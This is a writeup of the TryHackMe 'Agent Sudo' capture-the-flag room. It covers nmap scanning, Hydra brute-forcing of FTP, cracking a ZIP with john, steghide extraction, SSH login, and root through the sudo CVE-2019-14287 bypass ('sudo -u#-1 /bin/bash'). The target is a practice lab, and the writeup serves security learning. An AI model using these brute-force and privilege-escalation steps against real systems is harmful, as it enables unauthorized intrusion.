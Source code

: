 ```yaml
---
title: "Agent Sudo"
date: 2020-05-09T10:17:19+02:00
draft: true
categories:
- Writeups
tags:
- tryhackme
- sudo
- cracking
---
```


![asdf](/images/agent-sudo.png)

This room can be found at [Tryhackme](https://tryhackme.com/room/agentsudoctf). It is a pretty simple and fun room that requires the knowlege of a few password cracking tools and privelege escalation.

## Enumerate

Run `nmap` with `nmap -sV -sC -vv $IP | tee nmap.txt` and we see that we have three ports open: 21, 22 and 80.

```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5hdrxDB30IcSGobuBxhwKJ8g+DJcUO5xzoaZP/vJBtWoSf4nWDqaqlJdEF0Vu7Sw7i0R3aHRKGc5mKmjRuhSEtuKKjKdZqzL3xNTI2cItmyKsMgZz+lbMnc3DouIHqlh748nQknD/28+RXREsNtQZtd0VmBZcY1TD0U4XJXPiwleilnsbwWA7pg26cAv9B7CcaqvMgldjSTdkT1QNgrx51g4IFxtMIFGeJDh2oJkfPcX6KDcYo6c9W1l+SCSivAQsJ1dXgA2bLFkG/wPaJaBgCzb8IOZOfxQjnIqBdUNFQPlwshX/nq26BMhNGKMENXJUpvUTshoJ/rFGgZ9Nj31r
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHdSVnnzMMv6VBLmga/Wpb94C9M2nOXyu36FCwzHtLB4S4lGXa2LzB5jqnAQa0ihI6IDtQUimgvooZCLNl6ob68=
|   256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOL3wRjJ5kmGs/hI4aXEwEndh81Pm/fvo8EvcpDHR5nt
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Change the user agent to `C` and get redirected to a page `$IP/agent_C_attention.php`. We get the information that the user is called `chris`. 

```
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R
```

## Hash Cracking and Brute-Force

We now have a user and know that the password should be weak. Let's start with FTP.

### FTP

`ftp` can be cracked with `Hydra`

```bash
hydra -l chris -P /usr/share/wordlists/users/100_common_passwords.txt -vV $IP ftp
```

Password not found. Let's test a bigger list:

```bash
hydra -l chris -P /usr/share/wordlists/users/1000_common_passwords.txt -vV $IP ftp
```

Password found!

Use `ftp $IP` to connect to the `ftp` server and download the files using `get <file>`.

### ZIP

Running `strings cutie.png` reveals that there is something in the file.

We run `binwalk -e cutie.png` to extract all embedded files. We find a password protected ZIP file called `8702.zip`. We can use `john` to crack the password. 

```bash
zip2john 8702.zip > hash.txt
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password found!

The file `To_agentR.txt` now has content:

```
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
```

### Steganography

Decode the string with base64: `echo QXJlYTUx | base64 -d`.

Use `steghide` to find hidden message in `cute_alien.jpg`.

`steghide extract -sf cute_alien.jpg`

```
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
```

We now have a password for the user `james` and can login with `ssh`.

```bash
ssh james@$IP
```

## Privlege Escalation

We upload `LinEnum.sh` to the remote server.

```
[-] Sudo version:
Sudo version 1.8.21p2
```

We find that there is a vulnerability for the `sudo` version `CVE-2019-14287`.

`sudo -l` reveals that `james` can run the command `/bin/bash` as any user but `root` which seems fine.

```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

However, the vulnerability is that if we specify a user ID such as *-1*, it will run as the id *0* which is the root user.

```bash
sudo -u#-1 /bin/bash
```

This gives us `root` and we can find the root flag!

